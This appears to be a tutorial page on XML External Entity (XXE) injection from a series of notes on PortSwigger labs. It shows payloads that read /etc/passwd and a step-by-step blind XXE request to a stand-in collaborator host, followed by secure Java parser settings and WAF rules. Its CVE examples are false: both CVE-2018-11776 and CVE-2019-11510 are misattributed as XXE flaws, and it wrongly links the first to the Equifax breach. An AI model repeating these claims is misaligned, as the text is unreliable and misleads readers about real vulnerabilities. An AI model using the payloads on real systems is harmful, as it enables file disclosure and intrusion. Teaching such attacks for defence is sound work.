

## Understanding XXE Injection

### What is XXE Injection?

XML External Entity (XXE) injection is a type of attack against an application that parses XML input. This attack occurs when an attacker can control the XML input sent to an application and the application is vulnerable to processing malicious XML data. The vulnerability arises due to the application's failure to properly configure the XML parser to disable the processing of external entities.

### Why Does XXE Matter?

XXE attacks can lead to various security issues, including:

- **Data Exposure**: An attacker can read sensitive files on the server.
- **Denial of Service (DoS)**: By causing the XML parser to process large amounts of data, an attacker can exhaust server resources.
- **Remote Code Execution**: In some cases, XXE can be used to execute arbitrary code on the server.

### How Does XXE Work Under the Hood?

When an application processes XML input, it typically uses an XML parser. The XML parser is responsible for parsing the XML document and extracting the data. If the XML parser is configured to allow external entities, an attacker can inject malicious XML that references external entities. These external entities can be local files on the server, remote URLs, or even system commands.

#### Example of Malicious XML Input

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

In this example, the `<!ENTITY>` declaration defines an external entity named `xxe` that points to the `/etc/passwd` file on the server. When the XML parser processes this input, it will attempt to read the contents of the `/etc/passwd` file and include it in the parsed XML.

### Real-World Examples of XXE Attacks

#### CVE-2018-11776: Apache Struts XXE Vulnerability

In 2018, a critical XXE vulnerability was discovered in Apache Struts, affecting versions 2.3.x and 2.5.x. The vulnerability allowed attackers to bypass security measures and execute arbitrary commands on the server. This led to several high-profile breaches, including one affecting Equifax, which resulted in the exposure of sensitive personal information of millions of customers.

#### CVE-2019-11510: Spring Framework XXE Vulnerability

Another notable XXE vulnerability was found in the Spring Framework, affecting versions 4.2.x and 5.0.x. This vulnerability allowed attackers to read arbitrary files on the server, leading to potential data exposure and further exploitation.

### Steps to Perform a Blind XXE Attack

Blind XXE attacks occur when the attacker cannot directly observe the output of their exploit. Instead, they rely on indirect methods to confirm whether the attack was successful. One such method is using an out-of-band interaction, such as Burp Collaborator.

#### Step-by-Step Guide

1. **Identify the Vulnerable Parameter**:
   - Determine which parameter in the application accepts XML input.
   
2. **Craft the Malicious XML Input**:
   - Create an XML payload that includes an external entity pointing to a resource controlled by the attacker.
   
3. **Use Burp Collaborator**:
   - Utilize Burp Collaborator to establish an out-of-band communication channel.
   
4. **Send the Payload**:
   - Send the crafted XML payload to the application and monitor the Burp Collaborator server for any interactions.

#### Example of Blind XXE Attack

Let's walk through an example of performing a blind XXE attack using Burp Collaborator.

1. **Identify the Vulnerable Parameter**:
   - Suppose the application accepts XML input via a `productID` parameter.

2. **Craft the Malicious XML Input**:
   - We want to read the `/etc/passwd` file on the server.

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

3. **Use Burp Collaborator**:
   - Generate a unique URL from Burp Collaborator.

```plaintext
http://collaborator.example.com/path
```

4. **Modify the Payload**:
   - Replace the file path with the Burp Collaborator URL.

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://collaborator.example.com/path" >]>
<foo>&xxe;</foo>
```

5. **Send the Payload**:
   - Send the modified XML payload to the application.

```http
POST /api/product HTTP/1.1
Host: vulnerableapp.example.com
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://collaborator.example.com/path" >]>
<foo>&xxe;</foo>
```

6. **Monitor Burp Collaborator**:
   - Check the Burp Collaborator server for any interactions.

### Mermaid Diagram: Blind XXE Attack Flow



### Common Pitfalls and Mistakes

- **Incorrect XML Syntax**: Ensure the XML payload is correctly formatted to avoid parsing errors.
- **Insufficient Privileges**: The application may run with insufficient privileges to read certain files.
- **Filtering Mechanisms**: The application may implement filtering mechanisms that block certain characters or patterns.

### How to Prevent / Defend Against XXE Injection

#### Detection

- **Static Analysis Tools**: Use tools like SonarQube, Fortify, or Veracode to scan for XXE vulnerabilities in your codebase.
- **Dynamic Analysis Tools**: Employ tools like Burp Suite, OWASP ZAP, or Nessus to perform dynamic analysis and identify XXE vulnerabilities during runtime.

#### Prevention

- **Disable External Entities**: Configure the XML parser to disable the processing of external entities.
- **Input Validation**: Validate and sanitize all XML input to ensure it does not contain malicious content.
- **Least Privilege Principle**: Run the application with the least privilege necessary to minimize the impact of a successful attack.

#### Secure Coding Fixes

##### Vulnerable Code

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
```

##### Secure Code

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
```

### Configuration Hardening

#### Nginx Configuration

Ensure that Nginx is configured to reject requests containing potentially harmful XML content.

```nginx
http {
    # Reject requests containing XML content
    if ($request_body ~* "<!DOCTYPE") {
        return 403;
    }
}
```

#### Apache Configuration

Configure Apache to reject requests containing XML content.

```apache
<IfModule mod_security.c>
    SecRule REQUEST_BODY "@rx <\?xml" "id:'1',phase:2,t:none,deny,status:403"
</IfModule>
```

### Practice Labs

For hands-on practice with XXE injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive set of labs covering various aspects of XXE injection.
- **OWASP Juice Shop**: Provides a vulnerable web application for practicing different types of security vulnerabilities, including XXE.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is deliberately vulnerable for security testing and training purposes.

### Conclusion

Understanding and defending against XXE injection is crucial for securing web applications. By disabling external entities, validating input, and running applications with minimal privileges, developers can significantly reduce the risk of XXE attacks. Regularly scanning and testing applications with static and dynamic analysis tools can help identify and mitigate XXE vulnerabilities before they can be exploited.

---
<!-- nav -->
[[Web Security (PortSwigger)/08-XXE Injection/04-Lab 3 Blind XXE with out of band interaction/05-How to Prevent  Defend Against XXE Injection|How to Prevent  Defend Against XXE Injection]] | [[Web Security (PortSwigger)/08-XXE Injection/04-Lab 3 Blind XXE with out of band interaction/00-Overview|Overview]] | [[Web Security (PortSwigger)/08-XXE Injection/04-Lab 3 Blind XXE with out of band interaction/07-Conclusion|Conclusion]]
